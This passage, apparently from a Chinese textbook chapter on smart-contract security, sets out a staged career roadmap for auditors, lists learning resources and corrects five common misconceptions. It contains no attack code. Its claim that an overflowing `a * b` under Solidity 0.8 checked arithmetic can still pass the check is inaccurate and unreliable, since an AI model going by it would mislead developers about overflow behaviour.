| 阅读审计报告 | 精读10份Trail of Bits/OpenZeppelin的报告 | 各公司官网的公开报告 |

**第二阶段（3-6个月）：靶场突破**

| 目标 | 检验标准 | 推荐资源 |
|------|----------|----------|
| DVDF通关 | 完成全部挑战，理解每个漏洞的DeFi语境 | damnvulnerabledefi.xyz |
| 工具熟练 | 能用Slither+Mythril+Echidna分析合约 | 各工具官方文档 |
| 参与竞赛 | 至少参与一次C4/Sherlock竞赛并提交有效发现 | code4rena.com / sherlock.xyz |
| DeFi理解 | 理解Uniswap、Aave、Compound的核心机制 | 各协议白皮书和文档 |

**第三阶段（6-12个月）：审计实战**

| 目标 | 检验标准 | 推荐资源 |
|------|----------|----------|
| 独立审计 | 完成3+个真实项目的完整审计报告 | 开源项目的bug bounty |
| 攻击复现 | 复现5+个历史攻击事件并撰写分析文章 | DeFiHackLabs |
| 持续输出 | 建立安全研究博客，每月发布至少1篇文章 | Medium/Mirror/个人博客 |
| 竞赛成绩 | 在C4等平台获得稳定的审计收入 | 持续参与 |

**第四阶段（12个月+）：专业深耕**

| 目标 | 检验标准 |
|------|----------|
| 职业发展 | 进入专业审计公司（Trail of Bits、OpenZeppelin、Spearbit等） |
| 原创研究 | 发表原创的漏洞研究或攻击技术论文 |
| 工具开发 | 开发并开源至少一个有社区影响力的安全工具 |
| 社区贡献 | 在以太坊安全社区（EthSecurity、以太坊Magicians）活跃参与讨论 |

### 21.6.3 持续学习资源

**在线课程**：

- **Secureum Bootcamp**：免费的以太坊安全深度课程，由Secureum社区维护。内容涵盖Solidity安全、DeFi安全、形式化验证等，是系统化学习的最佳资源之一。
- **Cyfrin Updraft**：由Patrick Collins主讲的区块链开发和安全课程。他的YouTube频道有大量免费内容，教学风格清晰易懂。
- **Alchemy University**：Web3开发全栈课程，包含安全模块。

**书籍推荐**：

- **《Mastering Ethereum》**（Andreas M. Antonopoulos & Gavin Wood）：以太坊技术全面解析，从底层协议到应用层，是理解EVM安全的必读书籍。
- **《Real-World Cryptography》**（David Wong）：密码学实践指南，对理解区块链底层加密机制至关重要。
- **《Solidity设计模式》**：智能合约开发中的常见模式和反模式，帮助建立安全编码习惯。

**社区与信息源**：

- **以太坊Magicians**（ethereum-magicians.org）：EIP讨论和技术提案的论坛，了解协议层面的安全考量
- **EthSecurity Telegram群组**：区块链安全研究员的实时讨论社区
- **Twitter/X安全研究员**：关注 @samczsun、@Tinchoabbate、@pcaversaccio、@cmichelio 等一线安全研究员
- **Rekt News**（rekt.news）：实时跟踪DeFi攻击事件，第一时间了解最新攻击手法
- **DeFi Llama Hacks**（defillama.com/hacks）：按时间线和损失金额分类的攻击事件数据库

## 21.7 常见误区与纠正

**误区一："读完漏洞列表就能审计"**

纠正：漏洞类型列表只是起点。真正的审计能力在于理解漏洞在具体业务逻辑中的表现形式。同样是重入漏洞，在DEX、借贷协议、NFT市场中的表现完全不同。必须通过大量实践建立"条件反射"式的识别能力。

**误区二："工具能替代人工审查"**

纠正：Slither、Mythril等工具能发现约20-30%的常见漏洞，但无法理解业务逻辑、经济模型和复杂的跨合约交互。最严重的漏洞几乎都涉及业务逻辑层面的问题，只能通过人工审查发现。工具是辅助，不是替代。

**误区三："Solidity >= 0.8.0就不需要关注整数溢出"**

纠正：虽然编译器内置了溢出检查，但在unchecked块中仍然存在风险。更重要的是，精度损失（除法舍入）和乘法中间结果溢出（`a * b / c`中`a * b`可能溢出但仍通过检查）仍然可能发生。

**误区四："审计竞赛和真实审计是一样的"**

纠正：审计竞赛是竞赛模式，时间有限、范围固定、奖励按发现排名。真实审计中，时间更充裕但需要与开发团队沟通、编写可操作的修复建议、考虑修复的优先级和实施难度。竞赛高手不一定是好的审计顾问，反之亦然。

**误区五："只审计Solidity就够了"**

纠正：随着L2、Solana、Cosmos生态的发展，Rust（Solana的Anchor框架）、Move（Aptos/Sui）、Cairo（StarkNet）等语言的安全审计需求快速增长。在Solidity基础上扩展到至少一种其他链的审计能力，能显著提升职业竞争力。
